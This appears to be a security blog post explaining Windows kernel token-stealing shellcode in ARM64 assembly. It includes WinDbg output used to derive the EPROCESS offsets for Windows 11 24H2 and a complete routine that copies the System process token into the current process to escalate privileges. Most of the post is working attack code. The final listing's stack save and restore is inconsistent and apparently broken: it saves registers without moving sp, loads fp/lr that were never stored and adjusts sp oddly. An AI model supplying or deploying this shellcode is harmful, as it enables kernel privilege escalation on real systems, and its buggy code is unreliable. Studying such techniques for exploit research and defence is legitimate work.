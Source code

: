 ```yaml
---
layout: default
title: "Understanding Token Stealing in Windows Kernel: An ARM64 Assembly (Shallow) Dive"
date: 2024-12-21 15:00:00 -0000
categories: posts
---
```


# Understanding Token Stealing in Windows Kernel: An ARM64 Assembly (Shallow) Dive

Token stealing is a common windows kernel shellcode technique. Today, we'll analyze an ARM64 assembly implementation that demonstrates this technique. This is for educational purposes only, and is intended to demonstrate how token stealing can be reimplemented on other architectures.

## The Code Structure

Let's break down the key components:

### Determining Kernel Offsets

Using a WinDBG kernel debugging session, we can determine the offsets for the following structures:

```armasm
KTHREAD_OFFSET     EQU 0x988    ; Offset to current KTHREAD
EPROCESS_OFFSET    EQU 0x0B0    ; Offset to EPROCESS
ACTIVEPROCESSLINKS EQU 0x1C8    ; Offset to ActiveProcessLinks
PID_OFFSET         EQU 0x1C0    ; Offset to process ID
TOKEN_OFFSET       EQU 0x238    ; Offset to process token
```

The KTHREAD and EPROCESS offset can be obtained by disassembling `nt!PsGetCurrentProcess`.

```armasm
0: kd> uf nt!PsGetCurrentProcess
nt!PsGetCurrentProcess:
fffff803`dfee6b70 f944c648 ldr         x8,[xpr,#0x988]
fffff803`dfee6b74 f9405900 ldr         x0,[x8,#0xB0]
fffff803`dfee6b78 d65f03c0 ret
```

The `xpr` register is an alias for `x18`, a platform specific register which points to KPCR in kernel mode as per [https://learn.microsoft.com/en-us/cpp/build/arm64-windows-abi-conventions?view=msvc-170](https://learn.microsoft.com/en-us/cpp/build/arm64-windows-abi-conventions?view=msvc-170).

The ACTIVEPROCESSLINKS offset is obtained by examining the EPROCESS structure.

```armasm
0: kd> !process 4 0
Searching for Process with Cid == 4
PROCESS ffffe609926a5080
    SessionId: none  Cid: 0004    Peb: 00000000  ParentCid: 0000
    DirBase: 400aa000  ObjectTable: ffffd30c54229c80  HandleCount: 2819.
    Image: System

0: kd> dt nt!_EPROCESS ffffe609926a5080 ActiveProcessLinks
   +0x1c8 ActiveProcessLinks : _LIST_ENTRY [ 0xffffe609`92721248 - 0xfffff803`e09786c0 ]
```

The same process can be used to determine the PID_OFFSET,

```armasm
0: kd> dt nt!_EPROCESS ffffe609926a5080 UniqueProcessId
   +0x1c0 UniqueProcessId  : 0x00000000`00000004 Void
```
and TOKEN_OFFSET,

```armasm
0: kd> dt nt!_EPROCESS ffffe609926a5080 Token
   +0x238 Token              : _EX_FAST_REF
```

## The Token Stealing Process

### 1. Register Preservation
The code begins by saving the `x0` and `x1` registers to the stack, since we'll be using them later:
```armasm
stp x0, x1, [sp, #-0x20]
stp x2, x3, [sp, #-0x10]
```

### 2. Locating Current Process
```armasm
ldr x0, [xpr, #0x988]    ; Get KTHREAD
ldr x0, [x0, #0xB0]      ; Get EPROCESS
```

This sequence retrieves the current process's EPROCESS structure into `x0`.

### 3. Finding System Process
The code then enters a loop to traverse the process list until it finds the System process (PID 4):
```armasm
find_system:
    add x0, x0, ACTIVEPROCESSLINKS
    ldr x0, [x0]
    sub x0, x0, ACTIVEPROCESSLINKS
    ldr w3, [x0, PID_OFFSET]
    cmp w3, w2
    b.ne find_system
```

### 4. Token Swapping
Once the System process is found, its token is copied to our current process:
```armasm
ldr x2, [x0, TOKEN_OFFSET]    ; Get System token
str x2, [x1, TOKEN_OFFSET]    ; Set token in our process
```


## Technical Notes

- The code uses ARM64's `stp`/`ldp` instructions for efficient register pairs handling
- The implementation assumes specific Windows kernel structure layouts (Windows 11 24H2)

## The Code

Below is the ARM64 assembly code for the token stealing process in armasm64 syntax.

```armasm
; Constants for Windows kernel offsets
KTHREAD_OFFSET     EQU 0x988    ; Offset to current KTHREAD
EPROCESS_OFFSET    EQU 0x0B0    ; Offset to EPROCESS
ACTIVEPROCESSLINKS EQU 0x1C8    ; Offset to ActiveProcessLinks
PID_OFFSET         EQU 0x1C0    ; Offset to process ID
TOKEN_OFFSET       EQU 0x238    ; Offset to process token

    AREA |.text|,CODE,READONLY
    ALIGN

token_stealing PROC
    ; Save registers
    stp x0, x1, [sp, #-0x20]
    stp x2, x3, [sp, #-0x10]

    ldr x0, [xpr, #0x988]
    ldr x0, [x0, #0xB0]

    mov x1, x0                    ; Save current EPROCESS in x1

    ; System process PID (4)
    mov x2, #4

find_system
    ; Get next process
    add x0, x0, ACTIVEPROCESSLINKS
    ldr x0, [x0]
    sub x0, x0, ACTIVEPROCESSLINKS    ; Adjust to get EPROCESS base

    ; Compare PID
    ldr w3, [x0, PID_OFFSET]
    cmp w3, w2
    b.ne find_system

    ; Found System process, copy token
    ldr x2, [x0, TOKEN_OFFSET]        ; Get System token
    str x2, [x1, TOKEN_OFFSET]        ; Set token in our process

    ; Restore registers
    ldp x0, x1, [sp, #0x0]
    ldp x2, x3, [sp, #0x10]
    ldp fp,lr,[sp],#0x0
    add sp, sp, #0x30
    ret
    ENDP

    END

```

The full code can be found [here](https://github.com/glslang/winkexp/blob/main/src/asm/token_stealing_arm64.asm).

## Conclusion

This post describes how token stealing can be implemented, and derived, on ARM64, and can serve as a reference on how to implement token stealing on other architectures.

The offsets used in this code are specific to Windows 11 24H2, and may need to be adjusted for other versions of Windows.
